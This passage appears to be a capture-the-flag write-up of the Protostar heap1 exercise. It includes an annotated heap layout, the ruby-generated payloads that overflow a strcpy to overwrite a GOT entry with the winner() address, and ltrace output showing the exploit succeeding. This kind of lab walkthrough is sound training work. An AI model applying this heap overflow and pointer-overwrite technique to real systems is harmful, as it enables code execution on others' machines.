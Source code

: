 {% codeblock %}
strcpy(i1->name, argv[1]):
(8) 0x0804a000: i1-control
(4) 0x0804a008: i1-priority
(4) 0x0804a00c: i1-name(addr)

(8) 0x0804a010: i1-name-control
(8) 0x0804a018: i1-name             # AAAAAAAA

(8) 0x0804a020: i2-control          # AAAAAAAA
(4) 0x0804a028: i2-priority         # AAAA
(4) 0x0804a02c: i2-name(addr)       # [0x08049774].pack("V")

(8) 0x0804a030: i2-name-control     
(8) 0x0804a038: i2-name             

strcpy(i2->name, argv[2]):
(8) 0x0804a000: i1-control
(4) 0x0804a008: i1-priority
(4) 0x0804a00c: i1-name(addr)

(8) 0x0804a010: i1-name-control
(8) 0x0804a018: i1-name             # AAAAAAAA

(8) 0x0804a020: i2-control          # AAAAAAAA
(4) 0x0804a028: i2-priority         # AAAA
(4) 0x0804a02c: i2-name(addr)       # [0x08049774].pack("V")

(8) 0x0804a030: i2-name-control
(8) 0x0804a038: i2-name             # [0x08048494].pack("V")
{% endcodeblock %}

The second `strcpy()` takes `i2-name(addr) = 0x08049774` and copies over there the `argv[2]` value.

{% codeblock %}
user@protostar:~$ ltrace /opt/protostar/bin/heap1 $(ruby -e 'print "A" * 20 + [0x08049774].pack("V")') $(ruby -e 'print [0x08048494].pack("V")')
__libc_start_main(0x80484b9, 3, 0xbffff824, 0x8048580, 0x8048570 <unfinished ...>
malloc(8)                                                   = 0x0804a008
malloc(8)                                                   = 0x0804a018
malloc(8)                                                   = 0x0804a028
malloc(8)                                                   = 0x0804a038
strcpy(0x0804a018, "AAAAAAAAAAAAAAAAAAAAt\227\004\b")       = 0x0804a018
strcpy(0x08049774, "\224\204\004\b")                        = 0x08049774
puts("and that's a wrap folks!" <unfinished ...>
time(NULL)                                                  = 1435153654
printf("and we have a winner @ %d\n", 1435153654and we have a winner @ 1435153654
)                                                                             = 34
<... puts resumed> )                                                                                                          = 34
+++ exited (status 34) +++
{% endcodeblock %}

{% codeblock %}
user@protostar:~$ /opt/protostar/bin/heap1 $(ruby -e 'print "A" * 20 + [0x08049774].pack("V")') $(ruby -e 'print [0x08048494].pack("V")')
and we have a winner @ 1435149585
{% endcodeblock %}
